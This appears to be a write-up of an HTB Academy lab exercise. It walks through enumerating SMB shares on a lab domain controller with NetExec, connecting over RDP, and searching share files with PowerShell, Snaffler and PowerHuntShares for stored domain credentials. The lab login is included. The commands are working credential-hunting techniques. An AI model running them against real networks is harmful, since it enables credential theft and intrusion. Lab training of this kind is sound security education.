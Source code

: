 ## 🎯 HTB Academy Lab Exercise

### Lab Environment
- **Target**: Domain-joined Windows system
- **Initial Access**: RDP/WinRM with `mendres:Inlanefreight2025!`
- **Objective**: Discover additional user credentials and domain admin password
- **Available Tools**: Snaffler and PowerHuntShares in `C:\Users\Public`

### Lab Methodology

#### Phase 1: Share Enumeration and Access Verification
```bash
# Step 1: Check accessible shares with NetExec
netexec smb 10.129.232.180 -u mendres -p 'Inlanefreight2025!' --shares

# Expected output:
# SMB    10.129.232.180  445    DC01    Share           Permissions     Remark
# SMB    10.129.232.180  445    DC01    Company         READ        
# SMB    10.129.232.180  445    DC01    HR              READ        
# SMB    10.129.232.180  445    DC01    IT              READ        
# SMB    10.129.232.180  445    DC01    NETLOGON        READ        
# SMB    10.129.232.180  445    DC01    SYSVOL          READ        
```

#### Phase 2: RDP Access and PowerShell Analysis
```bash
# Step 2: Establish RDP connection
xfreerdp /v:10.129.232.180 /u:mendres /p:Inlanefreight2025!
```

```powershell
# Step 3: HTB Academy Domain-Specific Search Method
# Search for INLANEFREIGHT\ pattern in IT share
Get-ChildItem -Recurse -Include *.* \\DC01.inlanefreight.local\IT | Select-String -Pattern "INLANEFREIGHT\\"

# Expected result:
# \\DC01.inlanefreight.local\IT\Tools\split_tunnel.txt:5:# Auth backup password: INLANEFREIGHT\jbader:{password}

# Alternative patterns for thorough search
Get-ChildItem -Recurse -Include *.* \\DC01.inlanefreight.local\HR | Select-String -Pattern "INLANEFREIGHT\\"
Get-ChildItem -Recurse -Include *.* \\DC01.inlanefreight.local\Company | Select-String -Pattern "INLANEFREIGHT\\"
```

#### Phase 3: Automated Tool Analysis
```cmd
# Using Snaffler for comprehensive scanning
cd C:\Users\Public
Snaffler.exe -s -o snaffler_results.txt

# Using PowerHuntShares for detailed reporting
Import-Module .\PowerHuntShares.ps1
Invoke-HuntSMBShares -Threads 100 -OutputDirectory C:\temp\hunt_results
```
